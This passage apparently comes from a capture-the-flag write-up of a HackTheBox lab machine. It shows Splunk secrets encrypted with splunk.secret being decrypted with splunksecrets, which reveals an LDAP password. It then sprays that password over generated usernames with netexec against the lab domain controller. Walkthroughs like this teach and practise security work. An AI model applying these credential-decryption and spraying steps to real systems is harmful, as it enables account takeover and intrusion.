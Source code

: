 The hash is not actually a hash, but rather data encrypted with the value in the `splunk.secret` file. This is actually a case where encryption is less secure than hashing, as the process can be reversed. Personally, I think it’s a bit confusing of Splunk to invent this format, as most (if not all) other `$digit$` formats are hashes.

#### Decrypt

I’ll install the tool using `uv` as shown in the `README` ([uv cheatsheet](/cheatsheets/uv#)), and run it, passing the secret file and the encrypted data:

```

oxdf@hacky$ splunksecrets splunk-decrypt -S splunk.secret --ciphertext '$7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY='
Ld@p_Auth_Sp1unk@2k24
oxdf@hacky$ splunksecrets splunk-decrypt -S splunk.secret --ciphertext '$7$lPCemQk01ejJvI8nwCjXjx7PJclrQJ+SfC3/ST+K0s+1LsdlNuXwlA=='
changeme
oxdf@hacky$ splunksecrets splunk-decrypt -S splunk.secret --ciphertext '$7$/nq/of9YXJfJY+DzwGMxgOmH4Fc0dgNwc5qfCiBhwdYvg9+0OCCcQw=='
password

```

Because the data is encrypted and not hashes, there’s no guessing or brute force. The second two seem less useful, but the first looks interesting!

### Validate

The config file shows the user as “CN=Paul Taylor,CN=Users,DC=haze,DC=htb”. I’ll use [username-anarchy](https://github.com/urbanadventurer/username-anarchy) to come up with likely usernames:

```

oxdf@hacky$ ./username-anarchy paul taylor | tee paul_usernames
paul
paultaylor
paul.taylor
paultayl
pault
p.taylor
ptaylor
tpaul
t.paul
taylorp
taylor
taylor.p
taylor.paul
pt

```

Now I can try that password with each using `netexec`:

```

oxdf@hacky$ netexec smb haze.htb -u paul_usernames -p 'Ld@p_Auth_Sp1unk@2k24'
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.61     445    DC01             [-] haze.htb\paul:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\paultaylor:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.10.11.61     445    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24 

```
